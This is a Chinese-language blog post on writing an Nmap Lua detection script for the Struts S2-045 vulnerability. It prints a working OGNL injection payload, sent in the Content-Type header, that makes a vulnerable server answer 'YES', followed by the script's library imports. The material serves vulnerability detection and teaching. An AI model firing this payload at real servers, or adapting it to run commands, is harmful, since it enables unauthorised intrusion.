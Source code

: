 ```yaml
---
layout: post
title:  "Struts S2-045 Nmap扫描脚本"
date:   2017-06-02
categories: nmap
permalink: /archivers/nmap-write-script
description: "本文介绍一下Nmap的扩展插件编写"
---
```

本文介绍一下Nmap的扩展插件编写

## 0x00 Nmap脚本简介

夜无眠，看了一下Nmap官方的英文API文档(全是English)，瞬间心态崩塌，不想吐槽它们的nmap官网前端太丑了=。=，但是都是大牛啊，挺敬佩开源开发者的。

Nmap最灵活的就是它的`scripts`了，在渗透测试中我们经常会用它来扫描服务、漏洞，而且很多脚本也可以用于漏洞利用，总之就是很强大啦～ 具体的介绍在这里：[Nmap脚本使用指南](https://zhuanlan.zhihu.com/p/26618074)

看过《Nmap渗透指南》一书，发现书中对于Nmap脚本的编写是轻描淡写，所以本文就利用一个漏洞实例给大家详细说说这个脚本如何开发的。
`PS：并没有说这本书不好，其实很好很好的。`

## 0x01 实战编写前的思路

今天我用`Struts S2-045`这个漏洞来编写一个漏洞检测脚本。

PS：此文需要一点`Lua`语言基础。我也就看了个半调子 ，才写的这个文章，Lua大牛误喷。

思路： 它主要是给服务器端发送一个http请求，这个请求里的`Content-type`中就是我们的利用代码了。在这里可以称之为`Payload`。

相关链接：[Struts 2 S2-045 Jakarta插件远程代码执行漏洞加固方法](https://zhuanlan.zhihu.com/p/25639832)

我们先把`Payload`拿出来：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('YES')).(#o.close())}
```

可以看到有一个YES，当服务器端相应YES的时候，我们就判定这个服务器存在此漏洞。

根据官方的文档，我们先载入指定的扩展库：

```lua
--
-- Created by IntelliJ IDEA.
-- User: liyingzhe
-- Date: 17-6-3
-- Time: 上午2:07
-- To change this template use File | Settings | File Templates.
--
local http = require "http"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local vulns = require "vulns"
```
这些基本用于发送HTTP请求、字符串操作、漏洞结果生成、错误调试
